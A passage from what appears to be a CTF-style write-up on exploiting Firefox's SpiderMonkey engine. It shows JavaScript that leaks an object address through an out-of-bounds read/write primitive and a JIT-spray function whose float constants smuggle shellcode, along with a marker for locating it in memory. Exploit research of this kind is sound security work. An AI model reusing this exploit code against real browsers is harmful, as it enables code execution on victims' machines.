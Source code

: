 ```
  shape 244aead75160
  flags:
  proto <function  at 244aead7b040>
  properties:
js> 
```

We see that there is a pointer to the object at offset `0x8`. The object address is represented differently with the `0xfffe` tag, but we can certainly leak this address using the OOB and arbitrary read/write.

```js
leak_offset = 8
// Leak the pointer containing `what` property object address
leak = x.oob(leak_offset)

// Read the object address
x.oob(arb_offset, leak)
read_ta = new BigUint64Array(victim_ta.buffer);
jitfunc_addr = read_ta[0] & 0xffff_ffffffffn;
```

It is worth noting that I could only leak the address of object once, and leaking any object again may require building another array and victim layout. For my exploit, this is enough.

## Code Execution

This is probably the most interesting part. In v8, we are basically done if we can figure out the address of a rwx WASM page, but in SM, it is not so easy. There is no rwx WASM or JIT page.

The resources suggest that there is a way that way can smuggle executable code into JIT-ed functions, and point the JIT-ed code to the desired code address. We do this by JIT-ing a function with just constant values where they are actually shellcode. Because the code is marked executable, these bytes will be read-executable. The only disadvantage is that we need to hardcode all of these values, so no dynamic shellcode at this stage (e.g. we cannot write shellcode based on some info leak before that). But this is already good enough.

There are 2 tasks left:

1. Search the memory for the address of our smuggled shellcode.
2. Figure out the code pointer of a victim JIT-ed function and overwrite this pointer.

In the shellcode function, we put a marker value so we can search for it in memory by scanning:

```js
function sc() {
    sc_marker = 5.40900888e-315;      // 0x41414141 in memory - Used as a way to find
    SC1 = 6.828527034422786e-229;
    SC2 = 7.340387646374746e+223
    SC3 = -5.6323145813786076e+190
    SC4 = 7.748604185565308e-304
    SC5 = 7.591064455398236e+175
    SC6 = 1.773290436458278e-288
    SC7 = 7.748604204935092e-304
    SC8 = 2.1152000545026834e+156
    SC9 = 2.7173154612872197e-71
    SC10 = 1.2811179539027648e+145
    SC11 = 4.0947747766066967e+40
    SC12 = 1.7766685363804036e-302
    SC13 = 3.6509617888350745e+206
    SC14 = -6.828523606646638e-229  
}

for(i = 0; i < 0x1000; i++) {
    sc();
}

```

[^1]: https://firefox-source-docs.mozilla.org/setup/linux_build.html
[^2]: https://doar-e.github.io/blog/2018/11/19/introduction-to-spidermonkey-exploitation/#jsvalues-and-jsobjects
[^3]: https://webcache.googleusercontent.com/search?q=cache:ySfo3rNPA2kJ:https://labs.f-secure.com/blog/exploiting-cve-2019-17026-a-firefox-jit-bug/
[^4]: https://github.com/ducphanduyagentp/browser-pwn-advent-calendar/tree/main/06